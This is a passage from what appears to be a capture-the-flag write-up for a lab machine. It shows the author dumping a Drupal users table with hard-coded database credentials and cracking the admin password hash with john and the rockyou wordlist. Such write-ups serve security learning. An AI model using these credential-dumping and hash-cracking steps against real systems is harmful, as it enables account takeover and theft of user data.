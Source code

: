 ```bash
node
node_access
node_comment_statistics
node_revision
node_type
queue
rdf_mapping
registry
registry_file
role
role_permission
search_dataset
search_index
search_node_links
search_total
semaphore
sequences
sessions
shortcut_set
shortcut_set_users
system
taxonomy_index
taxonomy_term_data
taxonomy_term_hierarchy
taxonomy_vocabulary
url_alias
users
users_roles
variable
watchdog
```

Lets see what we can find in the users table.
```bash
mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "use drupal; select * from users;"
uid	name	pass	mail	theme	signature	signature_format	created	access	login	status	timezone	language	picture	init	data
0						NULL	0	0	0	0	NULL		0		NULL
1	brucetherealadmin	$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt	admin@armageddon.eu			filtered_html	1606998756	1607077194	1607076276	1Europe/London		0	admin@armageddon.eu	a:1:{s:7:"overlay";i:1;}
```

Nice! We have a user `brucetherealadmin` and its password hash `$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt`

As I dont know what kind of hash this is, Im going to give this to `john` and see what it can do with it.
```bash
└──╼ $john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Created directory: /home/nath/.john
Using default input encoding: UTF-8
Loaded 1 password hash (Drupal7, $S$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 32768 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
booboo           (?)
1g 0:00:00:00 DONE (2023-04-17 12:42) 1.052g/s 244.2p/s 244.2c/s 244.2C/s courtney..harley
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
